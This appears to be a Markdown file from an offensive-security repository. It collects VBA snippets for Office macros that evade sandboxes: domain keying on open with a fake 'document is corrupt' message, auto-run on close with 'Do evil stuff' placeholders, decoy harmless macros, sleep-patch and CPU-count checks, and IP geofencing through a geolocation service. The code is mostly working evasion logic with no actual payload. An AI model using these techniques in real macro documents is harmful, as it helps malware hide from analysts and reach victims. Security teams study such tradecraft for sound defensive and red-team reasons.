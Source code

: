 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Sandbox evasion (Guardrails) for Office macros

## Current user's joined domain from expanded environment variable %USERDNSDOMAIN%
~~~
Private Sub Workbook_Open()
    dnsdomain = "evilcorp.local"
    Set wshShell = CreateObject("WScript.Shell")
    d = wshShell.ExpandEnvironmentStrings("%USERDNSDOMAIN%")
    If InStr(LCase(d), dnsdomain) > 0 Then
        setHomepage
        MsgBox "the document is corrupt and cannot be opened.", vbExclamation, "Error"
    End If
End Sub
~~~

## Execute macro on close
~~~
# EXCEL
Sub Auto_Close()
    ' Do evil stuff
End Sub

# WORD
Sub Document_Close()
    ' Do evil stuff
End Sub
~~~

## Do innocuous things
~~~
Sub CopyAndPaste3x3Area()
    Range("A1:C3").Select
    Selection.Copy
    Range("A4").Select
    ActiveSheet.Paste
End Sub

Sub InsertAlternateRows()
    Dim rng As Range
    Dim CountRow As Integer
    Dim i As Integer
    Set rng = Selection
    CountRow = rng.EntireRow.Count
    For i = 1 To CountRow
    ActiveCell.EntireRow.Insert
    ActiveCell.Offset(2, 0).Select
    Next i
End Sub
~~~

## Detect sandbox sleep patch
This code is detected by O365 as malicious
~~~
#If VBA7 Then
    Public Declare PtrSafe Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As LongPtr) 'For 64 Bit Systems
#Else
    Public Declare Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As Long) 'For 32 Bit Systems
#End If

Private Sub Workbook_Open()

    Dim CurrentSec As Integer
    Dim FutureSec As Integer
    Dim CurrentMin As Integer
    Dim FutureMin As Integer
    Dim CurrentHour As Integer
    Dim FutureHour As Integer
    Dim CurrentTime As Integer
    Dim FutureTime As Integer
    Dim Result As String
    Dim Time As Integer
    
    CurrentSec = Second(Now)
    CurrentMin = Minute(Now)
    CurrentHour = Hour(Now)
    
    CurrentTime = CurrentSec + (CurrentMin * 60) + (CurrentHour * 360)
    
    Time = 10000
    Sleep (Time)
    
    FutureSec = Second(Now)
    FutureMin = Minute(Now)
    FutureHour = Hour(Now)
    
    FutureTime = FutureSec + (FutureMin * 60) + (CurrentHour * 360)
    
    If (FutureTime - CurrentTime) >= 8 And (FutureTime - CurrentTime) <= 12 Then
        'Result = "Not patching."
        Debugging
    'Else
        'Result = "Patching."
    End If

    'MsgBox (Result)

End Sub
~~~

## Detect number of processors
~~~
Function NumberOfProcessors()
    sWQL = "Select numberOfCores From Win32_Processor"
    Set oWMISrvEx = GetObject("winmgmts:root/CIMV2")
    Set oWMIObjSet = oWMISrvEx.ExecQuery(sWQL)
    NumberOfProcessors = 0
    For Each oWMIObjEx In oWMIObjSet
    NumberOfProcessors = oWMIObjEx.numberOfCores
    Next

    End Function

    Sub getNumberOfProcessors()

    MsgBox "NumberOfCores " & NumberOfProcessors
End Sub
~~~

## Geolocation
~~~
Sub Picture2_Click()
MsgBox "Run bad Stuff"
End Sub

Public Function GeoTest() As String
 Set a = CreateObject("WinHttp.WinHttpRequest.5.1")
 a.Open "GET", "https://www.maxmind.com/geoip/v2.1/city/me", False
 a.SetRequestHeader "Referer", "https://www.maxmind.com/en/locate-my-ip-address"
 a.SetRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Trident/5.0)"
 a.Send
 If a.Status = 200 Then
    GeoTest = a.REsponseText
 End If

End Function
'Check number of running processes

Public Sub Geo()
    'MsgBox GeoTest
    'Exit if not run in charleston
    If InStr(GeoTest, "Charleston") = 0 Then Exit Sub 'or Error 105
    MsgBox "Got Here"
    
End Sub
~~~